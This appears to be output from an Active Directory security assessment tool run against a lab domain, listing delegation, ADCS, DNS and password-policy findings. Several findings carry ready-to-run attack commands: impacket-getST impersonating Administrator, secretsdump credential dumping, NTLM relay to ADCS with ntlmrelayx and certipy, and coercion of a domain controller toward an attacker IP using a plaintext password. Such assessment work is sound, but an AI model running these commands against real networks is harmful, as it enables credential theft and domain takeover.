  [MEDIUM] Shadow-admin group 'Remote Management Users' has 1 member(s)
         Members (1):
           • lowpriv
         
         Escalation: WinRM access to member hosts → lateral movement with a member's creds.
  [MEDIUM] Constrained Delegation — 1 computer(s)
         May be exploitable via S4U2Proxy / protocol transition.
         Targets: APP01
  [MEDIUM] Weak minimum password length (7)
         Short passwords are easier to crack after a hash dump.
  [MEDIUM] Password complexity disabled
         Users may set simple dictionary passwords.
  [MEDIUM] ADIDNS — wildcard (*) record present in 1 zone(s)
         A '*' record answers every otherwise-unresolved name in the zone. Two consequences:
           - it already catches missing-name / wpad queries, so classic ADIDNS name-injection is largely neutralised in that zone;
           - whoever can overwrite the '*' controls resolution of ALL unresolved names (domain-wide MITM) — cross-check the 'writable records' finding, and confirm the current target is expected:
           - corp.local: A 10.10.10.99
  [MEDIUM] Constrained Delegation — 1 account(s)
         May be exploitable via S4U2Proxy if you can compromise the delegating account.
         Accounts: APP01$
         # Compromise 'APP01$' first, then S4U (S4U2Proxy (requires the account's TGT/secret)):
         impacket-getST -spn 'cifs/<target.fqdn>' -impersonate Administrator -dc-ip 10.10.10.10 'corp.local/APP01$:<password>'   # or -hashes LM:NT
         export KRB5CCNAME=Administrator@*.ccache  # the resulting ticket
         impacket-secretsdump -k -no-pass -dc-ip 10.10.10.10 '<target.fqdn>'
  [MEDIUM] RBCD configured on 1 account(s)
         An actor with write access to msDS-AllowedToActOnBehalfOfOtherIdentity can
         set up RBCD to impersonate any user to the target service.
         Accounts: SQL01$
         # 'SQL01$' trusts another account for delegation — if you control it:
         impacket-getST -spn 'cifs/SQL01.corp.local' -impersonate Administrator -dc-ip 10.10.10.10 'corp.local/<CONTROLLED$>:<password>'
         export KRB5CCNAME=Administrator@*.ccache
         impacket-secretsdump -k -no-pass -dc-ip 10.10.10.10 'SQL01.corp.local'
  [MEDIUM] ESC8 on CA corp-CA — web enrollment (http)
         http enrollment reachable; NTLM not confirmed.
         Coerce a DC/machine to authenticate, then relay to ADCS:
           # relay (impacket). NOTE: may crash at 'Generating CSR...' on recent pyOpenSSL
           #   (>=24 removed crypto.X509Req) — use the certipy variant below if so:
           impacket-ntlmrelayx -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
           # relay (certipy) — modern crypto, resilient to the pyOpenSSL breakage:
           certipy-ad relay -target 'http://10.10.10.10' -template DomainController -forever
           # coercer -t = the host you coerce (the DC), NOT the CA name; use the DC IP to avoid DNS issues:
           coercer coerce -l <attacker-ip> -t 10.10.10.10 -u 'administrateur' -p 'P@ssw0rd!' -d corp.local --always-continue
           # then: certipy-ad auth -pfx dc.pfx -dc-ip 10.10.10.10
  [INFO] Administrators — 4 member(s)
         Local administrators of the domain controllers → domain compromise.
           • ESC13-Admins  (nested group)
           • Admins du domaine  (nested group)
           • Administrateurs de l’entreprise  (nested group)
           • Administrateur
  [INFO] Domain Admins — 1 member(s)
         Full control of the domain.
           • Administrateur
  [INFO] Enterprise Admins — 1 member(s)
         Full control of every domain in the forest.
           • Administrateur
  [INFO] Shadow-admin group 'Protected Users' has 1 member(s)
         Members (1):
           • pu-test
         
         Escalation: Defensive group (hardens members' Kerberos: no NTLM/RC4/delegation). Note which privileged accounts are NOT in it.
  [INFO] ADIDNS — internal name→IP map leaked (22 host record(s))
         AD-integrated DNS is readable over LDAP → the full internal DNS map was dumped without a single DNS query or zone transfer. Cross-reference with the computers module for hosts not joined to AD (appliances, Linux, network gear):
           *.corp.local, DomainDnsZones.corp.local, ForestDnsZones.corp.local, a.root-servers.net.RootDNSServers, b.root-servers.net.RootDNSServers, c.root-servers.net.RootDNSServers, corp.local, d.root-servers.net.RootDNSServers, dc01.corp.local, e.root-servers.net.RootDNSServers, f.root-servers.net.RootDNSServers, fileserver.corp.local, g.root-servers.net.RootDNSServers, gc._msdcs.corp.local, h.root-servers.net.RootDNSServers, i.root-servers.net.RootDNSServers, intranet.corp.local, j.root-servers.net.RootDNSServers, k.root-servers.net.RootDNSServers, l.root-servers.net.RootDNSServers …

```
